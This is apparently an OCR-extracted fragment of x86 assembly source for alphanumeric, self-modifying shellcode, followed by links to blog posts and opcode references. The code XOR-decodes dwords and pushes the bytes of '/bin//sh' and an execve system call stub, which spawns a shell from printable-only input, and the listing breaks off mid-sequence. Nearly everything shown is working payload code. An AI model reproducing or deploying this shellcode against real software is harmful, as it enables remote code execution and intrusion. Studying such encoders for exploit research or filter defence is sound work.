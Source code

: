```nasm
        push eax
        xor eax, 0x30303030

        /* 0x44 ^ 0x78 ^ 0xff == 0xc3 (ret) */
        push edx
        pop eax
        xor al, 0x44
        push 0x30
        pop ecx
        xor [edi+2*ecx+0x30], al

build_stack:
        /* push 0x80cd0b42 */
        push esi
        pop eax
        xor eax, 0x30433230
        xor eax, 0x4f713972
        push eax
        push esp
        pop ecx
        inc ecx
        inc ecx
        xor [ecx], dh
        inc ecx
        xor [ecx], dh

        /* push 0x8de18953 */
        push esi
        pop eax
        xor eax, 0x31443030
        xor eax, 0x435a4663
        push eax
        push esp
        pop ecx
        inc ecx
        xor [ecx], dh
        inc ecx
        xor [ecx], dh
        inc ecx
        xor [ecx], dh

        /* push 0x52e3896e */
        push esi
        pop eax
        xor eax, 0x31443034
        xor eax, 0x6358465a
        push eax
        push esp
        pop ecx
        inc ecx
        xor [ecx], dh
        inc ecx
        xor [ecx], dh

        /* push 0x69622f68 */
        push esi
        pop eax
        xor eax, 0x30304330
        xor eax, 0x59526c58
        push eax

        /* push 0x68732f2f */
        push esi
```

[origin]: 0x80cd0b42
[origin]: 0x8de18953
[origin]: 0x52e3896e
[origin]: 0x69622f68
[origin]: 0x68732f2f
[origin]: 0x6852d231
[1]: http://inaz2.hatenablog.com/entry/2014/07/11/004655
[2]: http://inaz2.hatenablog.com/entry/2014/07/13/025626
[3]: http://skypher.com/wiki/index.php?title=X86_alphanumeric_opcodes
[4]: http://www.c-jump.com/CIS77/CPU/x86/lecture.html#X77_0100_sib_byte_layout